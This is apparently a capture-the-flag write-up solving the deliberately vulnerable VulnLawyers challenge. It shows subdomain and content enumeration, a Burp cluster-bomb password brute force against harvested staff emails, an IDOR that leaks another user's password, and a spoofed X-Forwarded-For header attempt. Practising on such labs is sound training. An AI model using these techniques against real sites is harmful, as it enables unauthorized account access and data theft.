

# VulnLawyers

http://www.vulnlawyers.co.uk/ - 6 flags to find

OK so main page we have


Nothing special and no custom JS, just jquery and bootstrap.

Let's start with subdomain enumeration

```
└─$ assetfinder -subs-only vulnlawyers.co.uk
vulnlawyers.co.uk
vulnlawyers.co.uk
vulnlawyers.co.uk
```

Nothing from assetfinder, lets do some DNS recon

```
└─$ dnsrecon -n 8.8.8.8 -d vulnlawyers.co.uk
[*] std: Performing General Enumeration against: vulnlawyers.co.uk...
[-] DNSSEC is not configured for vulnlawyers.co.uk
[*] 	 SOA ns1.digitalocean.com 173.245.58.51
[*] 	 SOA ns1.digitalocean.com 2400:cb00:2049:1::adf5:3a33
[*] 	 NS ns3.digitalocean.com 198.41.222.173
[*] 	 NS ns3.digitalocean.com 2400:cb00:2049:1::c629:dead
[*] 	 NS ns2.digitalocean.com 173.245.59.41
[*] 	 NS ns2.digitalocean.com 2400:cb00:2049:1::adf5:3b29
[*] 	 NS ns1.digitalocean.com 173.245.58.51
[*] 	 NS ns1.digitalocean.com 2400:cb00:2049:1::adf5:3a33
[*] 	 A vulnlawyers.co.uk 68.183.255.206
[*] Enumerating SRV Records
[+] 0 Records Found
```

OK nothing special, lets try our subdomain.txt with Burp Intruder. And we get a hit against ```data.vulnlawyers.co.uk```, flag no.1

```
HTTP/1.1 200 OK
server: nginx/1.21.1
date: Sun, 05 Jun 2022 13:44:36 GMT
content-type: application/json
set-cookie: ctfchallenge=xxxx; Max-Age=2592000; Path=/; domain=.vulnlawyers.co.uk
connection: close
Content-Length: 109

{"name":"VulnLawyers Website API","version":"2.1.04","flag":"[^FLAG^XXXXXXXXXXXXXXXX^FLAG^]"}
```

Cool lets do some content discovery against the main domain and the subdomain.

First up the data subdomain, which gave me a hit with ```data.vulnlawyers.co.uk/users```, flag no.3

```
HTTP/1.1 200 OK
server: nginx/1.21.1
date: Sun, 05 Jun 2022 14:08:34 GMT
content-type: application/json
set-cookie: ctfchallenge=XXXXXXXXX; Max-Age=2592000; Path=/; domain=.vulnlawyers.co.uk
connection: close
Content-Length: 406

{"users":[{"name":"Yusef Mcclain","email":"yusef.mcclain@vulnlawyers.co.uk"},{"name":"Shayne Cairns","email":"shayne.cairns@vulnlawyers.co.uk"},{"name":"Eisa Evans","email":"eisa.evans@vulnlawyers.co.uk"},{"name":"Jaskaran Lowe","email":"jaskaran.lowe@vulnlawyers.co.uk"},{"name":"Marsha Blankenship","email":"marsha.blankenship@vulnlawyers.co.uk"}],"flag":"[^FLAG^XXXXXXXXXXXXXXXXX^FLAG^]"}
```

Cool lets loop back and do the main www domain. I get a couple of hits for ```www.vulnlawyers.co.uk/login``` and ```www.vulnlawyers.co.uk/denied```

Login actually gives me a 302 re-direct to denied. Let's take a closer look at the response body

```html
   <div class="row">
        <div class="col-md-6 col-md-offset-3">
            <div class="alert alert-info">
                <p>Access to this portal can now be found here <a href=/lawyers-only">/lawyers-only</a></p>
                <p>[^FLAG^XXXXXX^FLAG^]</p>
            </div>
        </div>
    </div>
</div>
```

We have flag no. 2 and a new path to explore ```www.vulnlawyers.co.uk/lawyers-only```

This re-directs me to the path lawyers-only-login, which gives



Let's explore this, I have a list of user emails from flag no.3 and a password list to try. Burp Intruder to the rescue!

Using a cluster-bomb attack I get a hit with

```
user:jaskaran.elowe@vulnlawyers.co.uk
pwd:summer
```

The lawyers-only path then gives (with a new token cookie set), flag no.4


Clicking the profile button gives, the below, looks like updates are disabled


But.... looking at the requests I can see it gets the profile details via an XHR to ```/lawyers-only-profile-details/4 ```

IDOR time, I know I have 5 users from the earlier flag, a couple of requests and I stumble on flag no. 5 with ID 2

```
HTTP/1.1 200 OK
server: nginx/1.21.1
date: Sun, 05 Jun 2022 15:38:46 GMT
content-type: application/json
set-cookie: ctfchallenge=xxxxxxxxxxxxxxx; Max-Age=2592000; Path=/; domain=.vulnlawyers.co.uk
connection: close
Content-Length: 157

{"id":2,"name":"Shayne Cairns","email":"shayne.cairns@vulnlawyers.co.uk","password":"q2V944&#2a1^3p","flag":"[^FLAG^XXXXXXXXXXXXXXXXXXXX^FLAG^]"}
```

Remember that denied path, lets take another look at that. This is part of the response

```html
   <div class="row">
        <div class="col-md-6 col-md-offset-3">
            <div class="alert alert-danger text-center">
                <p>Access is denied from your IP address</p>
            </div>
        </div>
    </div>
```

OK lets try adding a few headers to the request like so to see if we can bypass that

```
GET /denied HTTP/1.1
Host: www.vulnlawyers.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1 
X-Remote-Addr: 127.0.0.1
X-Originating-IP: 127.0.0.1
Cookie: ctfchallenge=xxxxxx; token=xxxxxx
Upgrade-Insecure-Requests: 1
```

No that didn't work, same message...

OK remember our staff portal screen, cases were managed by Shayne. We have his password lets login as him

I now have a new action I can perform


Which gives me the last flag no. 6 :)

